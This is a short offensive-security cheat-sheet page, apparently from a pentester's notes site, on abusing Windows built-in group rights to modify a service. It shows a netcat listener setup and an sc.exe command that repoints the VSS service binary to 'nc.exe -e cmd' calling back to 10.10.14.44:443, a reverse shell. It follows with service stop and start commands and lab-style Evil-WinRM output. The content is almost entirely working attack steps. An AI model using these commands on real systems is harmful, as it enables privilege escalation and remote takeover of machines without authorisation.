 ```yaml
---
title: "Built-in Group"
date: 2024-7-24
tags: ["Built-In Group", "Windows", "Windows Service"]
---
```


#### Abuse #1. Modify service path

```console
# Start a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
```

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Change service path

```console
# Assumed nc.exe is uploaded
sc.exe config <SERVICE> binpath="C:\ProgramData\nc.exe -e cmd <LOCAL_IP> <LOCAL_PORT>"
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\ProgramData> sc.exe config VSS binpath="C:\ProgramData\nc.exe -e cmd 10.10.14.44 443"
[SC] ChangeServiceConfig SUCCESS
```

#### 2. Restart service

```console
# Stop service
sc.exe stop <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.
```

```console
# Start service
sc.exe start <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

{{< /tabcontent >}}
